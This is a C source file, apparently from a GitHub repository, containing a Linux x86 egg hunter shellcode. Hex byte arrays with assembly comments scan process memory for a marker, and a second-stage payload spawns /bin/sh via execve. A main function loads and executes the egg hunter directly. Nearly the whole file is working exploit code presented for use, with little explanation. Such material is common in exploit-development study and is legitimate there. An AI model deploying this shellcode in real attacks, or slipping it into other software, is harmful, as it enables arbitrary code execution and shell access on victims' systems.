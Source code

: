 ```c
/*
Egg Hunter for Linux x86
Sanjiv Kawa (@skawasec)
www.popped.io
December 4, 2016
*/

#include<stdio.h>
#include<string.h>

#define EGG "\x4b\x53\x4b\x53" //SKSK

char egg[] = EGG;

unsigned char egg_hunter[] = \
                              "\xfc"	   	           	// cld
                              "\x31\xc0"	           	// xor eax,eax
                              "\x31\xd2"          		// xor ebx,ebx
                              "\x66\x81\xca\xff\x0f"	// or dx,0xfff
                              "\x42"		            	// inc edx
                              "\x8d\x5a\x04"       		// lea ebx,[edx+0x4]
                              "\xb8\x21\x00\x00\x00"	// mov eax,0x21
                              "\xcd\x80"		          // int 0x80
                              "\x3c\xf2"		          // cmp al,0xf2
                              "\x74\xec"		          // je next_page
                              "\xb8" EGG		          // mov EGG
                              "\x89\xd7"		          // mov edi,edx
                              "\xaf"			            // scasd
                              "\x75\xe7"		          // jne increment_address
                              "\xaf"			            // scasd
                              "\x75\xe4"		          // jne increment_address
                              "\xff\xe7";		          // jmp edi


unsigned char second_stage[] = \
                                EGG
                                EGG
                                "\x31\xc0\x50\x68\x6e\x2f\x73\x68"
                                "\x68\x2f\x2f\x62\x69\x89\xe3\x50"
                                "\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; // /bin/sh execve-stack

main()
{
  printf("[+] Searching for: %s\n", EGG);
  printf("[+] Egg Hunter Length: %d\n", strlen(egg_hunter));
  printf("[+] Shellcode Length: %d\n", strlen(second_stage));
  int (*ret)() = (int(*)())egg_hunter;
  ret();
}
```
